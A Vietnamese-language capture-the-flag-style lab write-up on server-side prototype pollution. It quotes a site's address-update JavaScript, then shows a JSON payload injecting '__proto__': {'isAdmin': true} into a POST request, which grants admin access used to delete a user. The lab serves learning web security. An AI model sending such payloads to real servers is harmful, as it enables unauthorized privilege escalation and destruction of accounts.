


# Lab: Privilege escalation via server-side prototype pollution



Có trường `isAdmin` trong object `user`, nhưng giá trị hiện tại là `false`.

Code `/resources/js/updateAddress.js`:

```javascript
function toLabel(key) {
  const string = key.replaceAll("_", " ").trim();
  return string.charAt(0).toUpperCase() + string.slice(1);
}

function handleSubmit(event) {
  event.preventDefault();

  const data = new FormData(event.target);

  const value = Object.fromEntries(data.entries());

  var xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (this.readyState == 4) {
      const responseJson = JSON.parse(this.responseText);
      const form = document.querySelector('form[name="change-address-form"');
      const formParent = form.parentElement;
      form.remove();
      const div = document.createElement("div");
      if (this.status == 200) {
        const header = document.createElement("h3");
        header.textContent = "Updated Billing and Delivery Address";
        div.appendChild(header);
        formParent.appendChild(div);
        for (const [key, value] of Object.entries(responseJson).filter(
          (e) => e[0] !== "isAdmin",
        )) {
          const label = document.createElement("label");
          label.textContent = `${toLabel(key)}`;
          div.appendChild(label);
          const p = document.createElement("p");
          p.textContent = `${JSON.stringify(value).replaceAll('"', "")}`;
          div.appendChild(p);
        }
      } else {
        const header = document.createElement("h3");
        header.textContent = "Error";
        div.appendChild(header);
        formParent.appendChild(div);
        const p = document.createElement("p");
        p.textContent = `${JSON.stringify(responseJson.error && responseJson.error.message) || "Unexpected error occurred."} Please login again and retry.`;
        div.appendChild(p);
      }
    }
  };
  var form = event.currentTarget;
  xhr.open(form.method, form.action);
  xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xhr.send(JSON.stringify(value));
}

document.addEventListener("DOMContentLoaded", function () {
  const form = document.querySelector('form[name="change-address-form"');
  form.addEventListener("submit", handleSubmit);
});
```

Thử thêm `"isAdmin": true` vào payload POST `/my-account/change-address` nhưng không cập nhật được.
Thử thêm `__proto__` vào payload POST `/my-account/change-address`:

```json
{
  "address": "test",
  "__proto__": {
    "isAdmin": true
  }
}
```



Thử payload:

```
"__proto__": {"isAdmin": true}
```

Thấy response trả về `isAdmin: true`, chứng tỏ đã có prototype pollution phía server.

Reload lại trang thì thấy tab `Admin panel` xuất hiện, sau đó xóa user `carlos`.
